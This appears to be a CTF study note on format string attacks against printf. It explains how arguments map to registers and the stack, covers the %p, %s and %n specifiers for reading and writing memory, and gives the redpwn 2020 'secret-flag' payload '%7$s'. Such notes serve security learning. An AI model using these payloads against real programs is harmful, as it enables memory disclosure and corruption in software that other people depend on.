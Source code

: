 # Pwn Challenge

## Format String attack

### Introduction

usecase:  when there is the instruction printf(var)

```lang=c
char w[10];
printf(w)
```

format and corresponding register

```lang=c
printf("%d%c%s", a,  b,  c);
          |      |   |   |
         rdi    rsi rdx rcx
```

variable prirority for format string
`rdi` -> `rsi` -> `rdx` -> `rcx` -> `r8` -> `r9` -> `stack`

Usually rdi will be the format string `%x`, so a single `%x` will actually print the value of `rsi`

For instances, the sample register status and code execution

```lang=python
...
r8 = (nil)
rcx = 0xa
rdx = 0x7ffff7dd3790
rsi = 0x1
rdi = 0xXXX # %x,%s,%p format string


call printf@plt

output:

0x1,0x7ffff7dd3790,0xa,(nil),0x7ffff7fe9700,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x400070,0x7fffffffe940,0x7b74f8be5cadfe00,0x4006f0
 |         |        |    |         |               |                   |                   |                 |      
rsi       rdx      rcx  r8        r9              rsp              rsp + 0x8           rsp + 0x10        rsp + 0x18
```


That is, when inserting payload, the first 6 %x will print the address stored in the register, the 7th %x will then print the address/value on the stack.

- %p: print value of the register or stack(in hex format, 64 bits)
- %x: print value of the register or stack(in hex format, 32 bits)
- %s: perceive the value of the register as a pointer, read the strings the pointer point to
- %7$p: read the 7th priority value(that is, second value of the stack)
- %n: write the number of succesfully printed value(the return value of printf) to the specific stack address or register 

```lang=c
aaaaaaaa%n
in this case, it will write 8 to the specific address, since there are 8 'a' in front of %n
```

```lang=c
aaaaaaaa%6$nbbbbbbbb%7$n
first %n it will write 8 to rsp and write 8 to rsp + 8
```

Faster & shorter way to construct the value for %n
```lang=c
%8c%6$n -> %8c will write 8 value of the rdi to the %6$n location, which is rsp
```

you can also use %lln, %n %hn to write different amount of data, please visit the reference webpage

#### printf_chk

almost the same as printf, only %n,%x$y is forbidden

#### [redpwn 2020 secret-flag]

payload: `%p%p%p%p%p%p%p %s` <br /> or `%7$s` (simply perceive 7th priority value as pointer, and read the strings pointer pointed to)

-> first 6 %p print the value of the register, the last %p and %s print the value on the stack, since the second address on the stack is a pointer pointing to the flag, we can utilize the %s to print the value the pointer pointed to.

#### Reference

[frozenkp string format introduction](https://frozenkp.github.io/pwn/format_string/)
[live overflow strfmt](https://www.youtube.com/watch?v=0WvrSfcdq1I)